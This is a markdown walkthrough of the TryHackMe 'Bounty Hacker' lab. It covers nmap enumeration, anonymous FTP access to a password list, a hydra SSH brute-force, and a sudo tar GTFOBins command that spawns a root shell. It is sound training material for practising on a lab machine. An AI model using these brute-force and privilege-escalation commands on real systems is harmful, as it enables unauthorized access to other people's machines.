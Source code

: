 ```yaml
---
title: Bounty Hacker
draft: false
tags:
  - tryhackme
---
```

> You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Enumeration

I first ran a Nmap service scan to detect open services.

```
nmap -sC -sV 10.10.10.10
```

This returned port 21(ftp), 22(ssh), 80(http). The good thing about running `-sC` (default scripts) is that it identified anonymous FTP login. So, we can connect via FTP.

```
ftp 10.10.10.10
```

One of the files available to us is `locks.txt`, which contains a list of what looks to be passwords.

# Exploitation

On the webserver, we're given a list of members of the 'Red Dragon Syndicate'.

```
spike
jet
ed
edward
ein
faye
lin
```

We can use this list of users with the list of passwords to see if we can crack into SSH.

```
hydra -L users.txt -P locks.txt 10.10.10.10 ssh
```

We were able to get access to `lin`!

# Privilege Escalation

Taking a look at `sudo -l`

```
User lin may run the following commands on bountyhacker:
```

GTFOBins has some nifty `tar` commands which can help escalate privileges.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This command will allow us to execute `/bin/sh` as sudo, and thus give us a shell as `root`!
